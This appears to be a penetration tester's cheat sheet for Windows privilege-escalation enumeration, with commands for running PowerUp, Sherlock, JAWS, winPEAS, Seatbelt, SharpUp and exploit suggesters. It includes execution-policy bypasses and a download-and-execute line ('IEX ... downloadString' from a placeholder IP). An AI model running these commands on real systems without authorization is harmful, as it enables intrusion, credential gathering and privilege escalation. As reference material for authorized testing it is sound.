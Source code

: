 # enumeration auto

## Path fix

```powershell
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```

## Check Arch, Process, Release ID

[get OS info from version](https://docs.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-osversioninfoexa?redirectedfrom=MSDN#remarks)

```powershell
PS> [system.environment]::Is64BitOperatingSystem
PS> [system.environment]::Is64BitProcess
> echo %PROCESSOR_ARCHITECTURE%

PS > Get-ComputerInfo | select WindowsProductName, WindowsVersion, OsHardwareAbstractionLayer
PS> (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" -Name ReleaseId).ReleaseId
PS> (Get-WmiObject -class Win32_OperatingSystem).Caption
PS> [System.Environment]::OSVersion.Version
```

## [PowerUp.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) | [Sherlock.ps1](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) | [JAWS.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) | [enjoiz-privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)

{% tabs %} {% tab title="PowerUp.ps1" %}

```powershell
# located at /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
[OR]
PS> . .\PowerUp.ps1
PS> Invoke-AllChecks
```

{% endtab %}

{% tab title="Sherlock.ps1" %}

```powershell
> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
[OR]
PS> . .\Sherlock.ps1
PS> Find-AllVulns
```

{% endtab %}

{% tab title="JAWS.ps1" %}

```powershell
# located at /opt/JAWS/jaws-enum.ps1

> powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('http://IP/jaws.ps1')
```

{% endtab %}

{% tab title="enjoiz-privesc.ps1" %}

```powershell
# located at /opt/Privesc/privesc.ps1
> powershell.exe -exec bypass -Command "& {Import-Module .\p.ps1; Invoke-Privesc -Groups 'Users,Everyone,Authenticated Users' -Whoami -Extended -Long}"
```

{% endtab %} {% endtabs %}

## [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) | [Seatbelt](https://github.com/GhostPack/Seatbelt) | [SharpUp](https://github.com/GhostPack/SharpUp)

{% tabs %} {% tab title="winPEAS" %}

```powershell
# need .NET 4.0
# cmd check
> dir /b %windir%\Microsoft.NET\Framework\v*
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
> reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP\v4" /s

# check for .NET using PS
PS> cmd.exe /c dir /b %windir%\Microsoft.NET\Framework\v*
PS> Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

winPEASany.exe quiet [cmd fast] [flag]
# systeminfo; userinfo; processinfo;
# servicesinfo; applicationsinfo; networkinfo;
# windowscreds; browserinfo; filesinfo; eventsinfo
```

{% endtab %}

{% tab title="Seatbelt" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\Seatbelt.exe -group=[all | <check>] -outputfile="FULL-PATH"
```

{% endtab %}

{% tab title="SharpUp" %}

```powershell
# located at /usr/share/windows-resources/Ghostpack-CompiledBinaries/

> .\SharpUp.exe
```

{% endtab %} {% endtabs %}

## [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) | [wes-ng](https://github.com/bitsadmin/wesng)

{% tabs %} {% tab title="windows-exploit-suggester" %}

```bash
# needs python2
# copy .
# FIX: python2 -m pip install 'xlrd==1.2.0'

./windows-exploit-s.py --update
./windows-exploit-s.py -d <DB-FILE> -i <SYSTEMINFO.txt> [--hotfixes <>]

# if cannot get hotfixes using systeminfo
wmic qfe list full
```

{% endtab %}

{% tab title="wes-ng" %}

```bash
python3 /opt/wesng/wes.py sys.txt --update
python3 /opt/wesng/wes.py systeminfo.txt [--exploits-only] -o wes.csv
# --impact | -i "Remote Code Execution" | "Elevation of Privilege"
# --severity critical
```

{% endtab %} {% endtabs %}

{% embed url="https://github.com/SecWiki/windows-kernel-exploits" %}
